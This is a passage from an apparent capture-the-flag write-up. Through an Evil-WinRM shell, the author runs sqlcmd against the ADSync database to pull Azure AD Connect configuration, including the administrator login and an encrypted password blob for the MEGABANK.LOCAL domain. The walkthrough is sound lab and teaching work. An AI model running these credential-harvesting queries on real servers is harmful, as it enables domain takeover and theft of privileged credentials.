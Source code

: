 Again, I can do that same query with `sqlcmd`, but it doesn’t print the full results:

```
*Evil-WinRM* PS C:\> sqlcmd -d ADSync -Q 'SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = "AD"'
private_configuration_xml                                                                                                                                                                                                                                        encrypted_configuration
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
<adma-configuration>
 <forest-name>MEGABANK.LOCAL</forest-name>
 <forest-port>0</forest-port>
 <forest-guid>{00000000-0000-0000-0000-000000000000}</forest-guid>
 <forest-login-user>administrator</forest-login-user>
 <forest-login-domain>MEGABANK.LOCAL 8AAAAAgAAABQhCBBnwTpdfQE6uNJeJWGjvps08skADOJDqM74hw39rVWMWrQukLAEYpfquk2CglqHJ3GfxzNWlt9+ga+2wmWA0zHd3uGD8vk/vfnsF3p2aKJ7n9IAB51xje0QrDLNdOqOxod8n7VeybNW/1k+YWuYkiED3xO8Pye72i6D9c5QTzjTlXe5qgd4TCdp4fmVd+UlL/dWT/mhJHve/d9zFr2EX5r5+1TLbJCzYUHqFLvvpCd1rJEr68g

(1 rows affected)

```

I found [this stackoverflow post](https://stackoverflow.com/questions/24345345/how-to-prevent-sqlcmd-truncation-with-for-xml-path-query-result) which showed `-y 0` worked to get the full result:

```
*Evil-WinRM* PS C:\> sqlcmd -y0 -d ADSync -Q 'SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = "AD"'
<adma-configuration>
 <forest-name>MEGABANK.LOCAL</forest-name>
 <forest-port>0</forest-port>
 <forest-guid>{00000000-0000-0000-0000-000000000000}</forest-guid>
 <forest-login-user>administrator</forest-login-user>
 <forest-login-domain>MEGABANK.LOCAL</forest-login-domain>
 <sign-and-seal>1</sign-and-seal>
 <ssl-bind crl-check="0">0</ssl-bind>
 <simple-bind>0</simple-bind>
 <default-ssl-strength>0</default-ssl-strength>
 <parameter-values>
  <parameter name="forest-login-domain" type="string" use="connectivity" dataType="String">MEGABANK.LOCAL</parameter>
  <parameter name="forest-login-user" type="string" use="connectivity" dataType="String">administrator</parameter>
  <parameter name="password" type="encrypted-string" use="connectivity" dataType="String" encrypted="1" />
  <parameter name="forest-name" type="string" use="connectivity" dataType="String">MEGABANK.LOCAL</parameter>
  <parameter name="sign-and-seal" type="string" use="connectivity" dataType="String">1</parameter>
  <parameter name="crl-check" type="string" use="connectivity" dataType="String">0</parameter>
  <parameter name="ssl-bind" type="string" use="connectivity" dataType="String">0</parameter>
  <parameter name="simple-bind" type="string" use="connectivity" dataType="String">0</parameter>
  <parameter name="Connector.GroupFilteringGroupDn" type="string" use="global" dataType="String" />
  <parameter name="ADS_UF_ACCOUNTDISABLE" type="string" use="global" dataType="String" intrinsic="1">0x2</parameter>
  <parameter name="ADS_GROUP_TYPE_GLOBAL_GROUP" type="string" use="global" dataType="String" intrinsic="1">0x00000002</parameter>
  <parameter name="ADS_GROUP_TYPE_DOMAIN_LOCAL_GROUP" type="string" use="global" dataType="String" intrinsic="1">0x00000004</parameter>
  <parameter name="ADS_GROUP_TYPE_LOCAL_GROUP" type="string" use="global" dataType="String" intrinsic="1">0x00000004</parameter>
```